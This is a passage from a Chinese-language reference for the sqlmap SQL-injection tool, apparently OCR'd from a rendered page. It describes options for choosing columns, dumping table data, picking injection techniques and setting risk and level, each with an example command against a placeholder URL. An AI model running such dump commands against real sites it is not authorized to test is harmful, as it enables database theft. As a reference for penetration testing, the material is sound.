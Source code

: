     :

    ```
    sqlmap -u "http://example.com/vulnerable.php?id=1" -D mydatabase -T mytable --columns
    ```

- **`-C [column]`**:

  - **说明**: 指定要操作的列。

  - 示例

    :

    ```
    sqlmap -u "http://example.com/vulnerable.php?id=1" -D mydatabase -T mytable -C mycolumn --dump
    ```

- **`--dump`**:

  - **说明**: 从指定表中提取数据。

  - 示例

    :

    ```
    sqlmap -u "http://example.com/vulnerable.php?id=1" -D mydatabase -T mytable --dump
    ```

#### **4. 注入类型**

- **`--technique [techniques]`**:

  - **说明**: 指定 SQL 注入技术进行测试。可以选择 `B` (Blind)，`E` (Error-based)，`U` (Union-based)，`S` (Stacked queries)，`T` (Time-based)。

  - 示例

    :

    ```
    sqlmap -u "http://example.com/vulnerable.php?id=1" --technique=BEUST
    ```

- **`--risk [level]`**:

  - **说明**: 设置测试风险级别，范围从 1 到 3，较高级别可能会对目标产生更大的影响。

  - 示例

    :

    ```
    sqlmap -u "http://example.com/vulnerable.php?id=1" --risk=3
    ```
  
- **`--level [level]`**:

  - **说明**: 设置测试的详细程度，范围从 1 到 5，较高级别会进行更多的测试。

  - 示例
